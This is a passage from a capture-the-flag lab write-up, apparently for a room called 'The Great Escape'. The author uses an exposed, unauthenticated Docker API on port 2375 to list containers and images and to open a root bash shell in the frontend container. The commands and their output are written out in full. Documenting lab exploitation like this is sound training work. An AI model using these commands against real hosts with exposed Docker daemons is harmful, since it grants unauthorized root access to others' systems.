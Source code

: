 It's opened!

**Let's enumerate what containers are there:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 container ls          
CONTAINER ID   IMAGE          COMMAND                  CREATED         STATUS       PORTS                  NAMES
49fe455a9681   frontend       "/docker-entrypoint.…"   21 months ago   Up 2 hours   0.0.0.0:80->80/tcp     dockerescapecompose_frontend_1
4b51f5742aad   exif-api-dev   "./application -Dqua…"   21 months ago   Up 2 hours                          dockerescapecompose_api-dev-backup_1
cb83912607b9   exif-api       "./application -Dqua…"   21 months ago   Up 2 hours   8080/tcp               dockerescapecompose_api_1
548b701caa56   endlessh       "/endlessh -v"           21 months ago   Up 2 hours   0.0.0.0:22->2222/tcp   dockerescapecompose_endlessh_1
```

**The `frontend` container looks promising!**

**Let's spawn an interactive bash shell on the container:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 exec -it 49fe455a9681 bash
root@docker-escape:/# whoami;hostname;id
root
docker-escape
uid=0(root) gid=0(root) groups=0(root)
```

I'm `root` in this `docker-escape` container!

```
root@docker-escape:/# ls -lah /root
total 16K
drwx------ 2 root root 4.0K Dec  9  2020 .
drwxr-xr-x 1 root root 4.0K Jan  7  2021 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
```

But nothing in `/root`...

**Then, let's enumerate what images are there!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 image ls                                                    
REPOSITORY                                    TAG       IMAGE ID       CREATED         SIZE
exif-api-dev                                  latest    4084cb55e1c7   21 months ago   214MB
exif-api                                      latest    923c5821b907   21 months ago   163MB
frontend                                      latest    577f9da1362e   21 months ago   138MB
endlessh                                      latest    7bde5182dc5e   21 months ago   5.67MB
nginx                                         latest    ae2feff98a0c   22 months ago   133MB
debian                                        10-slim   4a9cd57610d6   22 months ago   69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   22 months ago   103MB
alpine                                        3.9       78a2ce922f86   2 years ago     5.55MB
```
